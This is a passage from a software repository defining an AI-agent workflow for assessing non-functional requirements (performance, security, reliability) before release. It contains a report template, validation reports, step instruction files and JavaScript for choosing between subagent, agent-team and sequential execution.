   - {SPECIFIC_STEPS}
   - {VALIDATION_CRITERIA}

2. **{ACTION_TITLE_2}** - {PRIORITY} - {ESTIMATED_EFFORT} - {OWNER}
   - {ACTION_DESCRIPTION}
   - {SPECIFIC_STEPS}
   - {VALIDATION_CRITERIA}

### Short-term (Next Milestone) - MEDIUM Priority

1. **{ACTION_TITLE_3}** - {PRIORITY} - {ESTIMATED_EFFORT} - {OWNER}
   - {ACTION_DESCRIPTION}

2. **{ACTION_TITLE_4}** - {PRIORITY} - {ESTIMATED_EFFORT} - {OWNER}
   - {ACTION_DESCRIPTION}

### Long-term (Backlog) - LOW Priority

1. **{ACTION_TITLE_5}** - {PRIORITY} - {ESTIMATED_EFFORT} - {OWNER}
   - {ACTION_DESCRIPTION}

---

## Monitoring Hooks

{MONITORING_HOOK_COUNT} monitoring hooks recommended to detect issues before failures:

### Performance Monitoring

- [ ] {MONITORING_TOOL_1} - {MONITORING_DESCRIPTION}
  - **Owner:** {OWNER}
  - **Deadline:** {DEADLINE}

- [ ] {MONITORING_TOOL_2} - {MONITORING_DESCRIPTION}
  - **Owner:** {OWNER}
  - **Deadline:** {DEADLINE}

### Security Monitoring

- [ ] {MONITORING_TOOL_3} - {MONITORING_DESCRIPTION}
  - **Owner:** {OWNER}
  - **Deadline:** {DEADLINE}

### Reliability Monitoring

- [ ] {MONITORING_TOOL_4} - {MONITORING_DESCRIPTION}
  - **Owner:** {OWNER}
  - **Deadline:** {DEADLINE}

### Alerting Thresholds

- [ ] {ALERT_DESCRIPTION} - Notify when {THRESHOLD_CONDITION}
  - **Owner:** {OWNER}
  - **Deadline:** {DEADLINE}

---

## Fail-Fast Mechanisms

{FAIL_FAST_COUNT} fail-fast mechanisms recommended to prevent failures:

### Circuit Breakers (Reliability)

- [ ] {CIRCUIT_BREAKER_DESCRIPTION}
  - **Owner:** {OWNER}
  - **Estimated Effort:** {EFFORT}

### Rate Limiting (Performance)

- [ ] {RATE_LIMITING_DESCRIPTION}
  - **Owner:** {OWNER}
  - **Estimated Effort:** {EFFORT}

### Validation Gates (Security)

- [ ] {VALIDATION_GATE_DESCRIPTION}
  - **Owner:** {OWNER}
  - **Estimated Effort:** {EFFORT}

### Smoke Tests (Maintainability)

- [ ] {SMOKE_TEST_DESCRIPTION}
  - **Owner:** {OWNER}
  - **Estimated Effort:** {EFFORT}

---

## Evidence Gaps

{EVIDENCE_GAP_COUNT} evidence gaps identified - action required:

- [ ] **{NFR_NAME_1}** ({NFR_CATEGORY})
  - **Owner:** {OWNER}
  - **Deadline:** {DEADLINE}
  - **Suggested Evidence:** {SUGGESTED_EVIDENCE_SOURCE}
  - **Impact:** {IMPACT_DESCRIPTION}

- [ ] **{NFR_NAME_2}** ({NFR_CATEGORY})
  - **Owner:** {OWNER}
  - **Deadline:** {DEADLINE}
  - **Suggested Evidence:** {SUGGESTED_EVIDENCE_SOURCE}
  - **Impact:** {IMPACT_DESCRIPTION}

---

## Findings Summary

**Based on ADR Quality Readiness Checklist (8 categories, 29 criteria)**

| Category                                         | Criteria Met       | PASS             | CONCERNS             | FAIL             | Overall Status                      |
| ------------------------------------------------ | ------------------ | ---------------- | -------------------- | ---------------- | ----------------------------------- |
| 1. Testability & Automation                      | {T_MET}/4          | {T_PASS}         | {T_CONCERNS}         | {T_FAIL}         | {T_STATUS} {T_ICON}                 |
| 2. Test Data Strategy                            | {TD_MET}/3         | {TD_PASS}        | {TD_CONCERNS}        | {TD_FAIL}        | {TD_STATUS} {TD_ICON}               |
| 3. Scalability & Availability                    | {SA_MET}/4         | {SA_PASS}        | {SA_CONCERNS}        | {SA_FAIL}        | {SA_STATUS} {SA_ICON}               |
| 4. Disaster Recovery                             | {DR_MET}/3         | {DR_PASS}        | {DR_CONCERNS}        | {DR_FAIL}        | {DR_STATUS} {DR_ICON}               |
| 5. Security                                      | {SEC_MET}/4        | {SEC_PASS}       | {SEC_CONCERNS}       | {SEC_FAIL}       | {SEC_STATUS} {SEC_ICON}             |
| 6. Monitorability, Debuggability & Manageability | {MON_MET}/4        | {MON_PASS}       | {MON_CONCERNS}       | {MON_FAIL}       | {MON_STATUS} {MON_ICON}             |
| 7. QoS & QoE                                     | {QOS_MET}/4        | {QOS_PASS}       | {QOS_CONCERNS}       | {QOS_FAIL}       | {QOS_STATUS} {QOS_ICON}             |
| 8. Deployability                                 | {DEP_MET}/3        | {DEP_PASS}       | {DEP_CONCERNS}       | {DEP_FAIL}       | {DEP_STATUS} {DEP_ICON}             |
| **Total**                                        | **{TOTAL_MET}/29** | **{TOTAL_PASS}** | **{TOTAL_CONCERNS}** | **{TOTAL_FAIL}** | **{OVERALL_STATUS} {OVERALL_ICON}** |

**Criteria Met Scoring:**

- ≥26/29 (90%+) = Strong foundation
- 20-25/29 (69-86%) = Room for improvement
- <20/29 (<69%) = Significant gaps

---

## Gate YAML Snippet

```yaml
nfr_assessment:
  date: '{DATE}'
  story_id: '{STORY_ID}'
  feature_name: '{FEATURE_NAME}'
  adr_checklist_score: '{TOTAL_MET}/29' # ADR Quality Readiness Checklist
  categories:
    testability_automation: '{T_STATUS}'
    test_data_strategy: '{TD_STATUS}'
    scalability_availability: '{SA_STATUS}'
    disaster_recovery: '{DR_STATUS}'
    security: '{SEC_STATUS}'
    monitorability: '{MON_STATUS}'
    qos_qoe: '{QOS_STATUS}'
    deployability: '{DEP_STATUS}'
  overall_status: '{OVERALL_STATUS}'
  critical_issues: { CRITICAL_COUNT }
  high_priority_issues: { HIGH_COUNT }
  medium_priority_issues: { MEDIUM_COUNT }
  concerns: { CONCERNS_COUNT }
  blockers: { BLOCKER_BOOLEAN } # true/false
  quick_wins: { QUICK_WIN_COUNT }
  evidence_gaps: { EVIDENCE_GAP_COUNT }
  recommendations:
    - '{RECOMMENDATION_1}'
    - '{RECOMMENDATION_2}'
    - '{RECOMMENDATION_3}'
```

---

## Related Artifacts

- **Story File:** {STORY_FILE_PATH} (if applicable)
- **Tech Spec:** {TECH_SPEC_PATH} (if available)
- **PRD:** {PRD_PATH} (if available)
- **Test Design:** {TEST_DESIGN_PATH} (if available)
- **Evidence Sources:**
  - Test Results: {TEST_RESULTS_DIR}
  - Metrics: {METRICS_DIR}
  - Logs: {LOGS_DIR}
  - CI Results: {CI_RESULTS_PATH}

---

## Recommendations Summary

**Release Blocker:** {RELEASE_BLOCKER_SUMMARY}

**High Priority:** {HIGH_PRIORITY_SUMMARY}

**Medium Priority:** {MEDIUM_PRIORITY_SUMMARY}

**Next Steps:** {NEXT_STEPS_DESCRIPTION}

---

## Sign-Off

**NFR Assessment:**

- Overall Status: {OVERALL_STATUS} {OVERALL_ICON}
- Critical Issues: {CRITICAL_COUNT}
- High Priority Issues: {HIGH_COUNT}
- Concerns: {CONCERNS_COUNT}
- Evidence Gaps: {EVIDENCE_GAP_COUNT}

**Gate Status:** {GATE_STATUS} {GATE_ICON}

**Next Actions:**

- If PASS ✅: Proceed to `*gate` workflow or release
- If CONCERNS ⚠️: Address HIGH/CRITICAL issues, re-run `*nfr-assess`
- If FAIL ❌: Resolve FAIL status NFRs, re-run `*nfr-assess`

**Generated:** {DATE}
**Workflow:** testarch-nfr v4.0

---

<!-- Powered by BMAD-CORE™ -->
```

## File: `src/workflows/testarch/bmad-testarch-nfr/validation-report-20260127-095021.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-nfr
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-nfr
validationStatus: COMPLETE
completionDate: 2026-01-27 10:03:10
---

# Validation Report: testarch-nfr

**Validation Started:** 2026-01-27 09:50:21
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 8

**Step File Sizes:**

- steps-c/step-01-load-context.md: 78 lines [GOOD]
- steps-c/step-02-define-thresholds.md: 75 lines [GOOD]
- steps-c/step-03-gather-evidence.md: 58 lines [GOOD]
- steps-c/step-04-evaluate-and-score.md: 61 lines [GOOD]
- steps-c/step-05-generate-report.md: 64 lines [GOOD]
- steps-e/step-01-assess.md: 51 lines [GOOD]
- steps-e/step-02-apply-edit.md: 46 lines [GOOD]
- steps-v/step-01-validate.md: 53 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

- No {project-root} hardcoded paths detected in body
- No dead relative links detected

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- Last step steps-v/step-01-validate.md has no nextStepFile (final step OK)
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: nfr-report-template.md
- Steps with outputFile in frontmatter:
  - steps-c/step-05-generate-report.md
  - steps-v/step-01-validate.md

## Validation Design Check

- checklist.md present: YES
- Validation steps folder (steps-v) present: YES

## Instruction Style Check

- All steps include STEP GOAL, MANDATORY EXECUTION RULES, EXECUTION PROTOCOLS, CONTEXT BOUNDARIES, and SUCCESS/FAILURE metrics

## Summary

- Validation completed: 2026-01-27 10:03:10
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-nfr/validation-report-20260127-102401.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-nfr
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-nfr
validationStatus: COMPLETE
completionDate: 2026-01-27 10:24:01
---

# Validation Report: testarch-nfr

**Validation Started:** 2026-01-27 10:24:01
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 8

**Step File Sizes:**

- steps-c/step-01-load-context.md: 77 lines [GOOD]
- steps-c/step-02-define-thresholds.md: 74 lines [GOOD]
- steps-c/step-03-gather-evidence.md: 57 lines [GOOD]
- steps-c/step-04-evaluate-and-score.md: 60 lines [GOOD]
- steps-c/step-05-generate-report.md: 63 lines [GOOD]
- steps-e/step-01-assess.md: 50 lines [GOOD]
- steps-e/step-02-apply-edit.md: 45 lines [GOOD]
- steps-v/step-01-validate.md: 52 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

### Config Variables (Exceptions)

Standard BMAD config variables treated as valid exceptions: bmb_creations_output_folder, communication_language, document_output_language, output_folder, planning_artifacts, project-root, project_name, test_artifacts, user_name

- No {project-root} hardcoded paths detected in body

- No dead relative links detected

- No module path assumptions detected

**Status:** ✅ PASS - No critical violations

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- steps-c/step-01-load-context.md: Init [PASS]
- steps-c/step-02-define-thresholds.md: Middle [PASS]
- steps-c/step-03-gather-evidence.md: Middle [PASS]
- steps-c/step-04-evaluate-and-score.md: Middle [PASS]
- steps-c/step-05-generate-report.md: Final [PASS]
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: nfr-report-template.md
- Steps with outputFile in frontmatter:
  - steps-c/step-05-generate-report.md
  - steps-v/step-01-validate.md
- checklist.md present: YES

## Validation Design Check

- Validation steps folder (steps-v) present: YES
- Validation step(s) present: step-01-validate.md
- Validation steps reference checklist data and auto-proceed

## Instruction Style Check

- Instruction style: Prescriptive (appropriate for TEA quality/compliance workflows)
- Steps emphasize mandatory sequence, explicit success/failure metrics, and risk-based guidance

## Collaborative Experience Check

- Overall facilitation quality: GOOD
- Steps use progressive prompts and clear role reinforcement; no laundry-list interrogation detected
- Flow progression is clear and aligned to workflow goals

## Subagent Optimization Opportunities

- No high-priority subagent optimizations identified; workflow already uses step-file architecture
- Pattern 1 (grep/regex): N/A for most steps
- Pattern 2 (per-file analysis): already aligned to validation structure
- Pattern 3 (data ops): minimal data file loads
- Pattern 4 (parallel): optional for validation only

## Cohesive Review

- Overall assessment: GOOD
- Flow is linear, goals are clear, and outputs map to TEA artifacts
- Voice and tone consistent with Test Architect persona
- Recommendation: READY (minor refinements optional)

## Plan Quality Validation

- Plan file present: workflow-plan.md
- Planned steps found: 8 (all implemented)
- Plan implementation status: Fully Implemented

## Summary

- Validation completed: 2026-01-27 10:24:01
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-nfr/workflow-plan.md`
```markdown
    # Workflow Plan: testarch-nfr

    ## Create Mode (steps-c)
    - step-01-load-context.md

- step-02-define-thresholds.md
- step-03-gather-evidence.md
- step-04-evaluate-and-score.md
- step-05-generate-report.md

  ## Validate Mode (steps-v)
  - step-01-validate.md

  ## Edit Mode (steps-e)
  - step-01-assess.md
  - step-02-apply-edit.md

  ## Outputs
  - {test_artifacts}/nfr-assessment.md
```

## File: `src/workflows/testarch/bmad-testarch-nfr/workflow.md`
```markdown
---
name: bmad-testarch-nfr
description: Assess NFRs like performance security and reliability. Use when user says 'lets assess NFRs' or 'I want to evaluate non-functional requirements'
web_bundle: true
---

# Non-Functional Requirements Assessment

**Goal:** Assess non-functional requirements (performance, security, reliability, maintainability) before release with evidence-based validation

**Role:** You are the Master Test Architect.

---

## WORKFLOW ARCHITECTURE

This workflow uses **tri-modal step-file architecture**:

- **Create mode (steps-c/)**: primary execution flow
- **Validate mode (steps-v/)**: validation against checklist
- **Edit mode (steps-e/)**: revise existing outputs

---

## INITIALIZATION SEQUENCE

### 1. Mode Determination

"Welcome to the workflow. What would you like to do?"

- **[C] Create** — Run the workflow
- **[R] Resume** — Resume an interrupted workflow
- **[V] Validate** — Validate existing outputs
- **[E] Edit** — Edit existing outputs

### 2. Route to First Step

- **If C:** Load `steps-c/step-01-load-context.md`
- **If R:** Load `steps-c/step-01b-resume.md`
- **If V:** Load `steps-v/step-01-validate.md`
- **If E:** Load `steps-e/step-01-assess.md`
```

## File: `src/workflows/testarch/bmad-testarch-nfr/workflow.yaml`
```yaml
# Test Architect workflow: bmad-testarch-nfr
name: bmad-testarch-nfr
# prettier-ignore
description: 'Assess NFRs like performance security and reliability. Use when the user says "lets assess NFRs" or "I want to evaluate non-functional requirements"'

# Critical variables from config
config_source: "{project-root}/_bmad/tea/config.yaml"
output_folder: "{config_source}:output_folder"
test_artifacts: "{config_source}:test_artifacts"
user_name: "{config_source}:user_name"
communication_language: "{config_source}:communication_language"
document_output_language: "{config_source}:document_output_language"
date: system-generated

# Workflow components
installed_path: "."
instructions: "./instructions.md"
validation: "./checklist.md"
template: "./nfr-report-template.md"

# Variables and inputs
variables:
  # NFR category assessment (defaults to all categories)
  custom_nfr_categories: "" # Optional additional categories beyond standard (security, performance, reliability, maintainability)

# Output configuration
default_output_file: "{test_artifacts}/nfr-assessment.md"

# Required tools
required_tools:
  - read_file # Read story, test results, metrics, logs, BMad artifacts
  - write_file # Create NFR assessment, gate YAML, evidence checklist
  - list_files # Discover test results, metrics, logs
  - search_repo # Find NFR-related tests and evidence
  - glob # Find result files matching patterns

tags:
  - qa
  - nfr
  - test-architect
  - performance
  - security
  - reliability

execution_hints:
  interactive: false # Minimize prompts
  autonomous: true # Proceed without user input unless blocked
  iterative: true
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-c/step-01-load-context.md`
```markdown
---
name: 'step-01-load-context'
description: 'Load NFR requirements, evidence sources, and knowledge base'
nextStepFile: './step-02-define-thresholds.md'
knowledgeIndex: '{project-root}/_bmad/tea/agents/bmad-tea/resources/tea-index.csv'
outputFile: '{test_artifacts}/nfr-assessment.md'
---

# Step 1: Load Context & Knowledge Base

## STEP GOAL

Gather NFR requirements, evidence sources, and knowledge fragments needed for assessment.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- 🚫 Halt if implementation or evidence is unavailable

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Prerequisites

- Implementation accessible for evaluation
- Evidence sources available (test results, metrics, logs)

If missing: **HALT** and request the missing inputs.

---

## 2. Load Configuration

From `{config_source}`:

- Read `tea_browser_automation`

---

### Tiered Knowledge Loading

Load fragments based on their `tier` classification in `tea-index.csv`:

1. **Core tier** (always load): Foundational fragments required for this workflow
2. **Extended tier** (load on-demand): Load when deeper analysis is needed or when the user's context requires it
3. **Specialized tier** (load only when relevant): Load only when the specific use case matches (e.g., contract-testing only for microservices, email-auth only for email flows)

> **Context Efficiency**: Loading only core fragments reduces context usage by 40-50% compared to loading all fragments.

## 3. Load Knowledge Base Fragments

From `{knowledgeIndex}` load:

- `adr-quality-readiness-checklist.md`
- `ci-burn-in.md`
- `test-quality.md`
- `playwright-config.md`
- `error-handling.md`

**Playwright CLI (if `tea_browser_automation` is "cli" or "auto"):**

- `playwright-cli.md`

**MCP Patterns (if `tea_browser_automation` is "mcp" or "auto"):**

- (existing MCP-related fragments, if any are added in future)

---

## 4. Load Artifacts

If available, read:

- `tech-spec.md` (primary NFRs)
- `PRD.md` (product-level NFRs)
- `story` or `test-design` docs (feature-level NFRs)

---

## 5. Confirm Inputs

Summarize loaded NFR sources and evidence availability.

---

## 6. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-01-load-context']
  lastStep: 'step-01-load-context'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-01-load-context'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-01-load-context'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

**Update `inputDocuments`**: Set `inputDocuments` in the output template frontmatter to the list of artifact paths loaded in this step (e.g., knowledge fragments, test design documents, configuration files).

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-c/step-01b-resume.md`
```markdown
---
name: 'step-01b-resume'
description: 'Resume interrupted workflow from last completed step'
outputFile: '{test_artifacts}/nfr-assessment.md'
---

# Step 1b: Resume Workflow

## STEP GOAL

Resume an interrupted workflow by loading the existing output document, displaying progress, and routing to the next incomplete step.

## MANDATORY EXECUTION RULES

- Read the entire step file before acting
- Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- Follow the MANDATORY SEQUENCE exactly
- Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: Output document with progress frontmatter
- Focus: Load progress and route to next step
- Limits: Do not re-execute completed steps
- Dependencies: Output document must exist from a previous run

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Output Document

Read `{outputFile}` and parse YAML frontmatter for:

- `stepsCompleted` -- array of completed step names
- `lastStep` -- last completed step name
- `lastSaved` -- timestamp of last save

**If `{outputFile}` does not exist**, display:

"No previous progress found. There is no output document to resume from. Please use **[C] Create** to start a fresh workflow run."

**THEN:** Halt. Do not proceed.

---

### 2. Display Progress Dashboard

Display progress with checkmark/empty indicators:

```
NFR Assessment - Resume Progress:

1. Load Context (step-01-load-context)                    [completed/pending]
2. Define Thresholds (step-02-define-thresholds)           [completed/pending]
3. Gather Evidence (step-03-gather-evidence)               [completed/pending]
4. Evaluate & Aggregate (step-04e-aggregate-nfr)           [completed/pending]
5. Generate Report (step-05-generate-report)               [completed/pending]

Last saved: {lastSaved}
```

---

### 3. Route to Next Step

Based on `lastStep`, load the next incomplete step:

| lastStep                    | Next Step File                    |
| --------------------------- | --------------------------------- |
| `step-01-load-context`      | `./step-02-define-thresholds.md`  |
| `step-02-define-thresholds` | `./step-03-gather-evidence.md`    |
| `step-03-gather-evidence`   | `./step-04-evaluate-and-score.md` |
| `step-04e-aggregate-nfr`    | `./step-05-generate-report.md`    |
| `step-05-generate-report`   | **Workflow already complete.**    |

**If `lastStep` is the final step** (`step-05-generate-report`), display: "All steps completed. Use **[C] Create** to start fresh, **[V] Validate** to review outputs, or **[E] Edit** to make revisions." Then halt.

**If `lastStep` does not match any value above**, display: "Unknown progress state (`lastStep`: {lastStep}). Please use **[C] Create** to start fresh." Then halt.

**Otherwise**, load the identified step file, read completely, and execute.

The existing content in `{outputFile}` provides context from previously completed steps.

---

## SYSTEM SUCCESS/FAILURE METRICS

### SUCCESS:

- Output document loaded and parsed correctly
- Progress dashboard displayed accurately
- Routed to correct next step

### FAILURE:

- Not loading output document
- Incorrect progress display
- Routing to wrong step

**Master Rule:** Resume MUST route to the exact next incomplete step. Never re-execute completed steps.
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-c/step-02-define-thresholds.md`
```markdown
---
name: 'step-02-define-thresholds'
description: 'Identify NFR categories and thresholds'
nextStepFile: './step-03-gather-evidence.md'
outputFile: '{test_artifacts}/nfr-assessment.md'
---

# Step 2: Define NFR Categories & Thresholds

## STEP GOAL

Establish the NFR categories to assess and the thresholds used for validation.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- 🚫 Never guess thresholds

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Select Categories

Use the ADR Quality Readiness Checklist (8 categories):

1. Testability & Automation
2. Test Data Strategy
3. Scalability & Availability
4. Disaster Recovery
5. Security
6. Monitorability/Debuggability/Manageability
7. QoS/QoE
8. Deployability

Add any `custom_nfr_categories` if provided.

---

## 2. Define Thresholds

For each category, extract thresholds from:

- tech-spec (primary)
- PRD (secondary)
- story or test-design (feature-specific)

If a threshold is unknown, mark it **UNKNOWN** and plan to report **CONCERNS**.

---

## 3. Confirm NFR Matrix

List each NFR category with its threshold or UNKNOWN status.

---

## 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-02-define-thresholds']
  lastStep: 'step-02-define-thresholds'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-02-define-thresholds'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-02-define-thresholds'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-c/step-03-gather-evidence.md`
```markdown
---
name: 'step-03-gather-evidence'
description: 'Collect evidence for each NFR category'
nextStepFile: './step-04-evaluate-and-score.md'
outputFile: '{test_artifacts}/nfr-assessment.md'
---

# Step 3: Gather Evidence

## STEP GOAL

Collect measurable evidence to evaluate each NFR category.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Evidence Sources

Collect evidence for:

- **Performance**: load tests, metrics, response time data
- **Security**: scans, auth tests, vuln reports
- **Reliability**: error rates, burn-in runs, failover tests
- **Maintainability**: test quality, code health signals
- **Other categories**: logs, monitoring, DR drills, deployability checks

---

## 2. Browser-Based Evidence Collection (if `tea_browser_automation` is `cli` or `auto`)

> **Fallback:** If CLI is not installed, fall back to MCP (if available) or skip browser-based evidence collection.

For performance and security categories, CLI can gather live evidence:

**Performance evidence (page load, response times):**

1. `playwright-cli -s=tea-nfr open <target_url>`
2. `playwright-cli -s=tea-nfr network` → capture response times and payload sizes
3. `playwright-cli -s=tea-nfr screenshot --filename={test_artifacts}/nfr/perf-<page>.png`
4. `playwright-cli -s=tea-nfr close`

> **Session Hygiene:** Always close sessions using `playwright-cli -s=tea-nfr close`. Do NOT use `close-all` — it kills every session on the machine and breaks parallel execution.

Store artifacts under `{test_artifacts}/nfr/`

---

## 3. Evidence Gaps

If evidence is missing for a category, mark that category as **CONCERNS**.

---

## 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-03-gather-evidence']
  lastStep: 'step-03-gather-evidence'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-03-gather-evidence'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-03-gather-evidence'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-c/step-04-evaluate-and-score.md`
```markdown
---
name: 'step-04-evaluate-and-score'
description: 'Orchestrate adaptive NFR domain assessments (agent-team, subagent, or sequential)'
nextStepFile: './step-04e-aggregate-nfr.md'
---

# Step 4: Orchestrate Adaptive NFR Assessment

## STEP GOAL

Select execution mode deterministically, then assess NFR domains using agent-team, subagent, or sequential execution while preserving output contracts.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Resolve execution mode from config (`tea_execution_mode`, `tea_capability_probe`)
- ✅ Apply fallback rules deterministically when requested mode is unsupported
- ✅ Wait for required worker steps to complete
- ❌ Do NOT skip capability checks when probing is enabled

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Wait for subagent outputs
- 📖 Load the next step only when instructed

---

## MANDATORY SEQUENCE

### 1. Prepare Execution Context

**Generate unique timestamp:**

```javascript
const timestamp = new Date().toISOString().replace(/[:.]/g, '-');
```

**Prepare context:**

```javascript
const parseBooleanFlag = (value, defaultValue = true) => {
  if (typeof value === 'string') {
    const normalized = value.trim().toLowerCase();
    if (['false', '0', 'off', 'no'].includes(normalized)) return false;
    if (['true', '1', 'on', 'yes'].includes(normalized)) return true;
  }
  if (value === undefined || value === null) return defaultValue;
  return Boolean(value);
};

const subagentContext = {
  system_context: /* from Step 1 */,
  nfr_thresholds: /* from Step 2 */,
  evidence_gathered: /* from Step 3 */,
  config: {
    execution_mode: config.tea_execution_mode || 'auto',  // "auto" | "subagent" | "agent-team" | "sequential"
    capability_probe: parseBooleanFlag(config.tea_capability_probe, true),  // supports booleans and "false"/"true" strings
  },
  timestamp: timestamp
};
```

---

### 2. Resolve Execution Mode with Capability Probe

```javascript
const normalizeUserExecutionMode = (mode) => {
  if (typeof mode !== 'string') return null;
  const normalized = mode.trim().toLowerCase().replace(/[-_]/g, ' ').replace(/\s+/g, ' ');

  if (normalized === 'auto') return 'auto';
  if (normalized === 'sequential') return 'sequential';
  if (normalized === 'subagent' || normalized === 'sub agent' || normalized === 'subagents' || normalized === 'sub agents') {
    return 'subagent';
  }
  if (normalized === 'agent team' || normalized === 'agent teams' || normalized === 'agentteam') {
    return 'agent-team';
  }

  return null;
};

const normalizeConfigExecutionMode = (mode) => {
  if (mode === 'subagent') return 'subagent';
  if (mode === 'auto' || mode === 'sequential' || mode === 'subagent' || mode === 'agent-team') {
    return mode;
  }
  return null;
};

// Explicit user instruction in the active run takes priority over config.
const explicitModeFromUser = normalizeUserExecutionMode(runtime.getExplicitExecutionModeHint?.() || null);

const requestedMode = explicitModeFromUser || normalizeConfigExecutionMode(subagentContext.config.execution_mode) || 'auto';
const probeEnabled = subagentContext.config.capability_probe;

const supports = {
  subagent: false,
  agentTeam: false,
};

if (probeEnabled) {
  supports.subagent = runtime.canLaunchSubagents?.() === true;
  supports.agentTeam = runtime.canLaunchAgentTeams?.() === true;
}

let resolvedMode = requestedMode;

if (requestedMode === 'auto') {
  if (supports.agentTeam) resolvedMode = 'agent-team';
  else if (supports.subagent) resolvedMode = 'subagent';
  else resolvedMode = 'sequential';
} else if (probeEnabled && requestedMode === 'agent-team' && !supports.agentTeam) {
  resolvedMode = supports.subagent ? 'subagent' : 'sequential';
} else if (probeEnabled && requestedMode === 'subagent' && !supports.subagent) {
  resolvedMode = 'sequential';
}

subagentContext.execution = {
  requestedMode,
  resolvedMode,
  probeEnabled,
  supports,
};
```

Resolution precedence:

